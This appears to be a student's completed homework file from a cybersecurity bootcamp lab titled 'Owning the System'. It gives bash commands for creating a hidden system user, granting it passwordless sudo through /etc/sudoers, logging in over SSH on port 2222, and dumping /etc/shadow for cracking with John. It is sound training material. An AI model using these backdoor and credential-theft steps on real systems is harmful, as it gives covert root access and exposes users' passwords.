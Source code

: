 ## Week 6 Homework Submission File: Advanced Bash - Owning the System

Please edit this file by adding the solution commands on the line below the prompt. 

Save and submit the completed file for your homework submission.

**Step 1: Shadow People** 

1. Create a secret user named `sysd`. Make sure this user doesn't have a home folder created:
    - useradd -M sysd

2. Give your secret user a password: 
    - passwd sysd

3. Give your secret user a system UID < 1000:
    - usermod -u 600 sysd

4. Give your secret user the same GID:
   - groupmod -g 600 sysd

5. Give your secret user full `sudo` access without the need for a password:
   -  cat >> /etc/sudoers <<< 'sysd  ALL=(ALL:ALL) NOPASSWD:ALL'

6. Test that `sudo` access works without your password:

    ```
    tail -1 /etc/sudoers
    ```

**Step 2: Smooth Sailing**

1. Edit the `sshd_config` file:

    ```
    sudo nano /etc/ssh/sshd_config
    ```

**Step 3: Testing Your Configuration Update**
1. Restart the SSH service:
    - systemctl restart ssh.service

2. Exit the `root` account:
    - exit

3. SSH to the target machine using your `sysd` account and port `2222`:
    - ssh sysd@192.168.6.105 -p 2222

4. Use `sudo` to switch to the root user:
    - sudo su

**Step 4: Crack All the Passwords**

1. SSH back to the system using your `sysd` account and port `2222`:

    - ssh sysd@192.168.6.105 -p 2222

2. Escalate your privileges to the `root` user. Use John to crack the entire `/etc/shadow` file:

    - cat /etc/passwd /etc/shadow > passwords.txt

    - john passwords.txt

---

© 2020 Trilogy Education Services, a 2U, Inc. brand. All Rights Reserved.

